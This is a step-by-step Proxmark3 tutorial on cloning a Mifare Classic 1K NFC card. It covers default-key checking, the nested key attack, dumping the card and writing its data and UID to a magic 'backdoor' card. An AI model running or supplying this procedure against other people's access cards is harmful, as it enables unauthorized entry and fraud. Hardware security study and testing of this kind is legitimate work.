 ```yaml
---
description: How to clone Mifare Classic 1K ISO14443A NFC Tag with proxmark3
---
```


# Mifare Classic 1K ISO14443A

## How to clone Mifare Classic 1K ISO14443A NFC Tag

```bash
proxmark3> hf search
```

Which results in a response along the lines of:

```bash
 #db# DownloadFPGA(len: 42096)
 UID : de 0f 3d cd
ATQA : 00 04  
 SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
No chinese magic backdoor command detected
Prng detection: HARDENED (hardnested)
Valid ISO14443A Tag Found - Quiting Search
```

As we can see the output `ISO14443A Tag Found` it's `Mifare 1k` card.

This also shows us the UID `de0f3dcd` of the card, which we’ll need later.

From there we can find keys in use by checking against a list of default keys (hopefully one of these has been used)

```bash
proxmark3> hf mf chk * ?
```

This should show us the key we require looking something like

```bash
No key specified, trying default keys  
chk default key[ 0] ffffffffffff  
chk default key[ 1] 000000000000  
chk default key[ 2] a0a1a2a3a4a5  
chk default key[ 3] b0b1b2b3b4b5  
chk default key[ 4] aabbccddeeff  
chk default key[ 5] 4d3a99c351dd  
chk default key[ 6] 1a982c7e459a  
chk default key[ 7] d3f7d3f7d3f7  
chk default key[ 8] 714c5c886e97  
chk default key[ 9] 587ee5f9350f  
chk default key[10] a0478cc39091  
chk default key[11] 533cb6c723f6  
chk default key[12] 8fd0a4f256e9  
--sector: 0, block:  3, key type:A, key count:13
Found valid key:[ffffffffffff]  
...omitted for brevity...
--sector:15, block: 63, key type:B, key count:13
Found valid key:[ffffffffffff]
```

This shows a key of `ffffffffffff`, which we can plug into the next command, which dumps keys to file `dumpkeys.bin`.

```bash
proxmark3> hf mf nested 1 0 A ffffffffffff d
```

Now to dump the contents of the card.  
This dumps data from the card into `dumpdata.bin`

```bash
proxmark3> hf mf dump
```

At this point we’ve got everything we need from the card, we can take it off the reader.

To copy that data onto a new card, place the [(Chinese backdoor) card](https://amzn.to/2XdKnfv){target=_blank} on the [Proxmark](https://amzn.to/3AcCQvL){target=_blank}.

This restores the dumped data onto the new card. Now we just need to give the card the UID we got from the original hf search command

```bash
proxmark3> hf mf restore 1
```

Copy the UID of the original card `de0f3dcd`

```bash
proxmark3> hf mf csetuid de0f3dcd
```

We’re done.

